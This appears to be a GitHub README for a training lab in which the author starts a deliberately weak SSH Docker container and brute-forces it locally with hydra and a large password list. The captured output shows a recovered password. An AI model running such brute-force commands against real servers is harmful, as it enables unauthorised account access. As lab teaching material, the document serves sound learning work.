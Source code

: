 # Attack is the best defense

```bash
88                                88        88
88                                88        ""
88                                88
88,dPPYba,  ,adPPYYba,  ,adPPYba, 88   ,d8  88 8b,dPPYba,   ,adPPYb,d8
88P'    "8a ""     `Y8 a8"     "" 88 ,a8"   88 88P'   `"8a a8"    `Y88
88       88 ,adPPPPP88 8b         8888[     88 88       88 8b       88
88       88 88,    ,88 "8a,   ,aa 88`"Yba,  88 88       88 "8a,   ,d88
88       88 `"8bbdP"Y8  `"Ybbd8"' 88   `Y8a 88 88       88  `"YbbdP"Y8
                                                            aa,    ,88
                                                             "Y8bbdP"
```

# General

* Network basics
* Docker

# Environment

<!-- ubuntu -->
[![Ubuntu](https://img.shields.io/static/v1?label=&message=Ubuntu&color=E95420&logo=Ubuntu&logoColor=E95420&labelColor=2F333A)](https://ubuntu.com/) <!-- bash -->
[![Bash](https://img.shields.io/static/v1?label=&message=GNU%20Bash&color=4EAA25&logo=GNU%20Bash&logoColor=4EAA25&labelColor=2F333A)](https://www.gnu.org/software/bash/) <!-- vim -->
[![Vim](https://img.shields.io/static/v1?label=&message=Vim&color=019733&logo=Vim&logoColor=019733&labelColor=2F333A)](https://www.vim.org/) <!-- vs code -->
[![VS Code](https://img.shields.io/static/v1?label=&message=Visual%20Studio%20Code&color=5C2D91&logo=Visual%20Studio%20Code&logoColor=5C2D91&labelColor=2F333A)](https://code.visualstudio.com/)

* OS: ``ubuntu``
* Shell: ``bash``
* IDE: ``vim``, ``VS Code``
* ``ssh``
* ``tcpdump``
* ``hydra``
* ``telnet``
* ``docker``

## Brute attack force

Pull docker image

``docker pull sylvainkalache/264-1```

Run the image

```bash
ralex@ralex-nb:~$ docker run -p 2222:22 -d -ti sylvainkalache/264-1
f6e64ceecab2c913fac1a15f2f2f66669dac8fd6b8f9a563ae30810f19852719
```

```bash
ralex@ralex-nb:~$ docker ps
CONTAINER ID   IMAGE                  COMMAND                  CREATED              STATUS              PORTS                                   NAMES
f6e64ceecab2   sylvainkalache/264-1   "/bin/sh -c 'service…"   About a minute ago   Up About a minute   0.0.0.0:2222->22/tcp, :::2222->22/tcp   quizzical_curran
ralex@ralex-nb:~$ 
```

brute force docker with hydra

``hydra -l sylvain -P passlist.txt ssh://127.0.0.1:2222``

```bash
ralex@ralex-nb:/media/ralex/2a17a9fd-dea9-4940-b67e-2348aa63bb5f/hack$ hydra -l sylvain -P ignis-1M.txt ssh://127.0.0.1:2222
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-25 23:59:46
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1000000 login tries (l:1/p:1000000), ~62500 tries per task
[DATA] attacking ssh://127.0.0.1:2222/
[STATUS] 178.00 tries/min, 178 tries in 00:01h, 999824 to do in 93:37h, 16 active
[2222][ssh] host: 127.0.0.1   login: sylvain   password: password123
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 5 final worker threads did not complete until end.
[ERROR] 5 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-01-26 00:01:20
```

## Author

<!-- twitter -->
[![Twitter](https://img.shields.io/twitter/follow/ralex_uy?style=social)](https://twitter.com/ralex_uy) <!-- linkedin --> [![Linkedin](https://img.shields.io/badge/LinkedIn-+21K-blue?style=social&logo=linkedin)](https://www.linkedin.com/in/ronald-rivero/) <!-- github --> [![Github](https://img.shields.io/github/followers/ralexrivero?style=social)](https://github.com/ralexrivero/) <!-- vagrant --> [![Vagrant](https://img.shields.io/static/v1?label=&message=Vagrant%20Profile&color=1868F2&logo=vagrant&labelColor=2F333A)](https://app.vagrantup.com/ralexrivero) <!-- docker --> [![Docker](https://img.shields.io/static/v1?label=&message=Docker%20Profile&color=2496ED&logo=Docker&labelColor=2F333A)](https://hub.docker.com/u/ralexrivero)